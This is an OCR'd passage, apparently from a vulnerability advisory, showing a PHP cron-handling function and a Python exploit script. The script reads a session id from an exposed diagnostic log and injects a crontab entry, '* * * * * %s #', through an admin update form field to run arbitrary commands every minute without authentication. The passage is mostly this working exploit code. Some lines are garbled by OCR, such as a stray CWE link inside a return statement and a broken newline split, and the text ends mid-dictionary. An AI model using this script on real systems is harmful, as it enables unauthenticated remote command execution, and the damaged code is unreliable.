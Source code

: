 ```
    else
        return false;
}

function addToCrontab(){
    if(!$this->filename)
        exit('No name specified for cron file');
        $data=array();
        exec("crontab ".escapeshellarg($this->directory.$this->filename),$data,$ret);

        if($ret==0)
            return true;
        else
            return false;
}
```

The following python script creates a cron job that will run an arbitrary command on every minute. It also leverages the session hijacking vulnerability described in 7.1 to bypass the need of authentication.



```
#!/usr/bin/env python

import requests
import sys

def exploit(host, port, command):
    session_id = get_session_id(host, port)
    print "[+] Obtained session id %s" % session_id
    execute_command(session_id, host, port, command)

def get_session_id(host, port):
    url = "https://%s:%d/widget/repository/log/diagnostic.log" % (host, port)
    r = requests.get(url, verify=False)
    for line in r.text.split('n')[::-1]:
        if "INFO" in line or "ERROR" in line:
            return line.split(',')(http://cwe.mitre.org/data/definitions/98.html)

def execute_command(session_id, host, port, command):
    print "[+] Executing command '%s' on %s:%d" % (command, host, port)
    url = "https://%s:%d/php/admin_update_program.php?sid=%s" % (host, port, session_id)
    multipart_data = {
        "ComponentSchedule": "on",
        "ComponentScheduleOS": "on",
        "ComponentScheduleService": "on",
        "ComponentScheduleWidget": "on",
        "useAUSchedule": "on",
        "auschedule_setting": "1",
        "update_method": "1",
        "update_method3": "on",
        "userfile": "",
        "sid": session_id,
        "hidComponentScheduleOS": "1",
        "hidComponentScheduleService": "1",
        "hidComponentScheduleWidget": "1",
        "hidUseAUSchedule": "1",
        "hidScheduleType": "1",
        "hidTimingDay": "2",
        "hidTimingHour": "2",
        "hidTimingMin": "* * * * * %s #" % command,
        "hidUpdateOption": "1",
        "hidUpdateNowFlag": ""
```